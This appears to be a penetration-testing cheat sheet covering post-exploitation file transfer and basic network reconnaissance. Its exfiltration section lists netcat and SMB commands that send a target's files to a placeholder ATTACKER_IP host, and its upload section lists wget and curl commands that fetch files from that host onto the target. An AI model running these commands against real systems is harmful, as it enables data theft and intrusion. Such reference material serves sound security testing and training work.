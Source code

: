 ## Post Exploitation

### File Transfer

#### Exfiltration

SCP:

```bash
$ scp [user@][TARGET]:/path/to/target/file /local/path
```

Netcat:

```bash
$ nc -l -p [PORT] > /path/to/outfile
$ nc -w 3 [HOST_IP] [PORT] < /path/to/file
```

SMB

:

```bash
$ sudo impacket-smbserver share .
$ copy /path/to/file \\ATTACKER_IP\share\
```

### Upload Techniques

```bash
$ wget http://[ATTACKER_IP]/file -O /path/to/file
$ curl http://[ATTACKER_IP]/file -o /path/to/file
$ scp /path/to/target/file [user@][TARGET]:/target/path
```

## Reconnaissance

### Initial Network Enumeration

Scan a domain name:

```bash
$ host example.com
```

### Network Host Enumeration

Nmap host scan:

```bash
$ nmap -sP -PI a.b.c.0/24
```

ARP query:

```bash
$ arp -a -n
```
